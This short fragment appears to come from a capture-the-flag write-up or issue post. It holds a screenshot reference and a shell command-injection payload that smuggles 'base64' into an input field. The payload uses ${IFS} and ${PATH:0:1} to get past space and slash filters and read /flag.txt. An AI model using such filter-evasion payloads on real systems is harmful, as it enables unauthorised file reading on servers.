 chocolate;base64${IFS}${PATH:0:1}flag.txt

<img width="1900" height="871" alt="image" src="https://github.com/user-attachments/assets/b76eea26-1712-4223-a083-f1e378d18d28" />
